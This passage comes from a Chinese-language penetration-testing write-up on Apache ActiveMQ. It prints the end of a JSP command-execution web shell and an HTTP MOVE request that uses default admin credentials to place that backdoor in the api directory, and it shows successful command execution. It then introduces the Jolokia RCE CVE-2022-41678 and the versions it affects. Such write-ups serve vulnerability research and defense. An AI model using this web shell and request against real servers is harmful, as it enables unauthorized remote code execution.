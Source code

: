 ```
 BufferedReader br=new   BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>
```  
  
  
204状态表示写入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZODgfZMHMnz1dVff8ibqt7ibIjgJT7zCrUKzocn2kePXg9aALozbodwQg/640?wx_fmt=png&from=appmsg "")  
  
  
然后移动1.txt后门到api目录下，就可以解析jsp文件  
```
MOVE /fileserver/1.txt HTTP/1.1
Host: 10.22.250.67:8161
Destination:file:///opt/activemq/webapps/api/1.jsp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0)   Gecko/20100101 Firefox/132.0
Accept:   text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language:   zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=1g843nd2t54jkj3phkc3uxc5
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZFnhYlGDa1NgC9tUbWML6fNB53VYfziaweI4xROhm0gm5d6Az6JuX2WA/640?wx_fmt=png&from=appmsg "")  
  
  
  
访问api路径  
  
http://10.22.250.67:8161/api/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZfvN6sR5P5mJjh7ibQShLzxkKAzDuwCBUKXqTD71ItTay0eAPRhNaiaWg/640?wx_fmt=png&from=appmsg "")  
  
需要传参  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z4jP8dzZ520nNXAPyVBfx1FkQU6BJEHdrMjruQsMhKcSg0JKIHFt4ow/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZRrOo1Opgo0LaxBsGvYiaGaBMLFbCrQmZ8bWicdRKwtqXv8k6LgDgU2rQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
ApacheActiveMQJolokia后台远程代码执行漏洞（CVE-2022-41678）  
  
Apache ActiveMQ 在5.16.5版本及以前和5.17.0< Apache ActiveMQ < 5.17.4版本，后台Jolokia存在一处任意文件写入导致的远程代码执行漏洞。  
  
  
漏洞影响范围：  
5.16.5版本及以前和5.17.0< Apache ActiveMQ < 5.17.4版本  
  